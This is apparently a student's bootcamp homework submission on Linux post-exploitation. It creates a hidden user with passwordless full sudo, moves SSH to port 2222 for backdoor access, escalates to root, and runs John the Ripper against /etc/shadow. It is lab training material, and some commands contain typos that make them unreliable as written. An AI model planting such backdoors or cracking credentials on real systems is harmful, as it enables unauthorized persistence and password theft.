 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
   
    - `adduser sysd`

    

2. Give your secret user a password: 
   
    - `cybersecurity`

3. Give your secret user a system UID < 1000:
  
    - `nano etc/passwd`
        
       - change UID value to 468

4. Give your secret user the same GID:
  
   - `nano etc/passwd`
       
        - change GID value to 468


5. Give your secret user full `sudo` access without the need for a password:
   -  
   `nano etc/sudoers`
        
        -enter under user pivilege specification
            
`sysd    ALL=(ALL:ALL) NOPASSWRD:ALL `

6. Test that `sudo` access works without your password:
   
    `sudo nano etc/sudoers`
   

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

`sudo nano /etc/ssh/sshd.config`

     - uncomment and adjust the line "port22"

    port 2222
    

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    
    - `sudo systemctl restart ssh.service
    `

2. Exit the `root` account:
    - 
    `su sysd`
        `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
   
    - `sudo -s`
    - `cd /etc`
        
    - `john shadow`
 
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

